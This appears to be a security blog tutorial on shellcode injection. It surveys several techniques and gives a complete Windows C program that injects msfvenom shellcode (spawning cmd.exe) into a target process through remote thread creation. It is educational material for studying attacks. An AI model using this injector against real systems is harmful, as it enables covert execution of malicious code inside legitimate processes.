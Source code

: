 ```yaml
---
title: Shellcode Injection
date: 2024-03-02
categories:
  - malware
  - execution
tags:
  - english
toc: "true"
---
```

Shellcode is a snippet of machine code typically written in assembly language. It's designed to perform a specific task when executed, often granting the attacker control over the compromised system. 

Shellcode injection involves the insertion and execution of such malicious code within the memory space of a target process, bypassing traditional security measures.

# Techniques for Shellcode Injection

## 1. Process Injection:

   - **Remote Thread Injection**: This technique involves creating a remote thread in the target process and directing it to execute the shellcode.
   - **Process Hollowing**: In process hollowing, a legitimate process is spawned in a suspended state, its memory contents replaced with the attacker's shellcode, and then resumed to execute the malicious code.

## 2. Code Cave Injection:

   - **Code Cave**: A code cave refers to an unused or padding section of executable memory within a process. Attackers exploit these code caves to inject and execute their shellcode, often evading detection.
   - **Return-Oriented Programming (ROP)**: ROP chains leverage existing code fragments within a process, known as gadgets, to perform malicious operations. Attackers construct a sequence of gadgets that ultimately lead to the execution of the injected shellcode.

In this blog post we will cover the **Remote Thread Injection**. 

# Hands-On: Shellcode Injection with C Code Snippet 
## Understanding Shellcode Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the shellcode injection process and its significance within the attack:

1.   **Opening the Target Process**: Use [`OpenProcess`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) to open a handle to the target process identified by its process ID.
    
2.   **Memory Allocation**: Use [`VirtualAllocEx`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to allocate memory within the address space of the target process.
    
3.   **Shellcode Injection**: Use [`WriteProcessMemory`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write the shellcode to the allocated memory within the target process.
    
4.   **Remote Thread Creation**: Use [`CreateRemoteThread`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) to create a remote thread in the target process, specifying the entry point as the allocated memory containing the shellcode.
    
5.   **Cleanup**: Close handles and release allocated memory after the execution of the remote thread.


```C
#include <windows.h>
#include <stdio.h>

//msfvenom -a x86 --platform windows -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f c
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00";


int main()
{
    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process
    if (hProcess == NULL) {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process
    LPVOID pAllocatedMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (pAllocatedMemory == NULL) {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the shellcode to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pAllocatedMemory, shellcode, sizeof(shellcode), NULL)) {
        printf("Failed to write shellcode to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread in the target process to execute the shellcode
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pAllocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to terminate
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}

```


Remember to collect the desired PID of the process you want to inject the shellcode to and change it for the `<TARGET_PROCESS_ID>` variable in the OpenProcess() function call. 
# Conclusion

Shellcode injection represents a formidable challenge in the realm of cybersecurity, enabling attackers to covertly execute malicious code within legitimate processes. Understanding the intricacies of shellcode injection, along with implementing robust detection and mitigation strategies, is essential for organizations to defend against this stealthy threat. By staying vigilant and adopting a multi-layered security approach, organizations can bolster their defenses and mitigate the risks posed by shellcode injection in today's dynamic threat landscape. Explore more insights into cybersecurity challenges and solutions in our ongoing series.